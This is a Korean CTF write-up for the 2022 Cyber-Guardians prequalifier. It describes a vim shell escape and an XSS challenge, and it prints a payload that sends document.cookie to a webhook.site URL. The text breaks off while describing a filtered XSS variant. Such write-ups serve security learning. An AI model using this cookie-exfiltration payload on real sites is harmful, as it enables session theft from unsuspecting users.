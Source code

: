 # 2022 Cyber-Guardians CTF Prequal

## Dreamhack Profile
Nickname: suk-6

email: wsuk.nam@gmail.com

## Solve list
A - Sanity Check!

I - xss-1.0

J - xss-1.3

### Sanity Check!
Netcat으로 원격 서버에 접속하였더니 vim 편집창이 나온다.

vim 편집기에서 !를 붙이고 Shell 명령어를 작성하면 실행되는 기능을 활용하여 루트 디렉토리의 파일을 조회하고 head 명령어로 flag 파일을 불러왔다.

### xss-1.0
로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

`location.href`를 이용하여 webhook.site로 리다이렉트 시켰다.

이 때 `document.cookie`를 이용하여 브라우저의 쿠키를 URI에 담아서 보냈다.

```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

### xss-1.3
xss-1.0과 같이 로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

다만, `'`, `"`, `=`를 필터링하고 있다.